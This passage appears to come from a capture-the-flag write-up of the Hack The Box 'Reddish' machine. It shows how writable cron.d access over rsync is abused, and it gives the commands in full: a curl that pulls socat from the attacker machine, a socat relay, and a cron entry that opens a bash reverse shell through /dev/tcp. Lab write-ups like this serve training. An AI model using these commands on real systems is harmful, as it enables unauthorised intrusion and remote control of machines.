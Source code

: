 ## Access to backup containers

After connecting with rsync, it was discovered that there is potential access to the cron.d folder, presenting a potential vector for attack. This access allows for both reading and writing privileges. This could be leveraged to create and execute tasks, such as initiating a reverse shell.

![crond](/img/htb/reddish/crond.png)

Before proceeding, the initial step involves downloading socat to the www container. This can be achieved by utilizing the already listening socat on the nodered server, redirecting port 9002 of nodered to the attacker machine's port 9002. Consequently, if a web server is launched by the attacker on port 9002, and a curl request is made from the www server to nodered on port 9002, the response received will be from the attacker machine's website.

> for the curl part simply use the `__curl` function mentioned before.

Then simply from the www container run
```bash
__curl http://172.19.0.4:9002/Cats/Linux/socat > socat
```

Assign executable permissions on socat and run it

```bash
root@www:~## chmod +x socat
root@www:~## ./socat TCP-LISTEN:9002,fork TCP:172.19.0.4:9002 &
```

> remember to close the web server running on port 9002 on the attacker machine before Proceeding

Now it is possible to exploit the cron misconfiguration of rsync following the next steps:

1. create a file with the new task 

```bash
echo '* * * * * root bash -c "bash -i >& /dev/tcp/172.20.0.2/9002 0>&1"' > task
```

2. upload the file to the cron folder of the remote server

```bash
rsync task rsync://backup:873/src/etc/cron.d/task
```
A reverse shell is obtained.

![revshell on backup](/img/htb/reddish/revshell_backup.png)
